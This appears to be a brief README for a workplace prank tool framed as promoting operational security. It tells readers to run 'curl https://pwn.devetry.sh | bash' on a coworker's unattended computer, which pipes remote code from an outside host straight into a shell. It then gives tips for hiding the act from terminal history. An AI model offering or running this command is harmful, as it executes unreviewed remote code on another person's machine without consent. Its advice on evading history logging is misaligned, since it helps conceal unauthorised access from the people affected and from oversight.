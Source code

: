 Encourage Operational Security at your organization.

Type the following at your coworkers' unattended computer:

```bash
curl https://pwn.devetry.sh | bash
```
It will choose a reasonably harmless script to (gently) mess with them.

## Tips

- Prepend the command with a space to avoid leaving evidence in terminal history.
- Run this is a fresh terminal to avoid leaving the command in session history.

